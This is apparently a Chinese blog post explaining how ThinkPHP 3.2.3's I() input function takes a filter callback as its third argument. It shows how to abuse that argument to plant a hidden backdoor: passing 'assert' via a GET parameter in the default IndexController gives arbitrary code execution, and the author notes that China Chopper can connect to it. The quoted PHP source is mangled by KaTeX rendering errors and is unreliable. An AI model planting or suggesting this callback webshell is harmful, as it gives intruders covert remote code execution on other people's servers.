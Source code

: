 ## I函数的第三个参数是$filter，作用是对变量的过滤。
### 新版本（3.2.3）中，$filter可以传入两种4种值：
## 1.一个过滤函数（字符串）
## 2.一些过滤函数组成的字符串，其间用“|”分割
## 3.一些过滤函数的字符串组成的数组
## 4.以“/”开头的正则表达式
### 可见代码，若$filter为空的话，其默认值为C('DEFAULT_FILTER')。我们在配置文件中可以看到，DEFAULT_FILTER=htmlspecialchars convention_php_—_thinkphp.png
### 以上4个情况最后归为两个，1是过滤回调函数，2是过滤的正则。正则部分如下：
```PHP
if (0 === strpos(KaTeX parse error: Expected '}', got 'EOF' at end of input: …!== preg_match(filters, (string) KaTeX parse error: Expected '}', got 'EOF' at end of input: … return isset(default) ? KaTeX parse error: Expected 'EOF', got '}' at position 23: … : null; 5	}̲ 6	} 如果第0个字…default。
```
### 而回调函数部分，是我们留后门的关键。I(‘post.90sec’, ‘’, I(‘get.i’));如上，第三个参数就是刚说的$filter，我们只需要把回调后门函数名字（assert）作为第三个参数传入，即可构造一个回调后门。
## 我就拿thinkphp默认的IndexController下的index方法示例：
## IndexController_class_php_—_thinkphp.png
## 如下即可执行任意代码：phpinfo__.png  一个回调后门，菜刀也可以连接
